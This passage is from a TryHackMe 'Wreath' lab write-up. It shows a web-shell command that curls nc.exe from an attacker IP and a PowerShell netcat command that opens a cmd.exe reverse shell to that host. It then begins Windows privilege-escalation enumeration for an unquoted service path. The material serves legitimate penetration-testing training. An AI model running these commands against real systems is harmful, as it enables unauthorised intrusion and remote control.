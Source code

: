 We can now download netcat to our host to setup a reverse shell: 
```
http://10.200.87.100/resources/uploads/test.jpeg.php?wreath=curl%20http://10.50.88.185/nc.exe%20-o%20c:\\windows\temp\nc-mystr0.exe
```

With a netcat listener ready on port 443 on our attacking machine we run the following command to get a reverse shell:
```
powershell.exe c:\\windows\\temp\\nc-mystr0.exe 10.50.88.185 443 -e cmd.exe
```
<img src="https://raw.githubusercontent.com/vbrunschot/Write-Ups/main/TryHackMe/Wreath/assets/16.png">

# Privilege Escalation on 10.200.87.100
Let's search for non-default services:
```
wmic service get name,displayname,pathname,startmode | findstr /v /i "C:\Windows"
```
<img src="https://raw.githubusercontent.com/vbrunschot/Write-Ups/main/TryHackMe/Wreath/assets/17.png">

We spot a service with a space in it's path that doesn't have quotation marks around it which means it might be vulnerable to unquoted service path attack. We'll check to see if the service is running as the local system account:
```
sc qc SystemExplorerHelpService
```
<img src="https://raw.githubusercontent.com/vbrunschot/Write-Ups/main/TryHackMe/Wreath/assets/18.png">
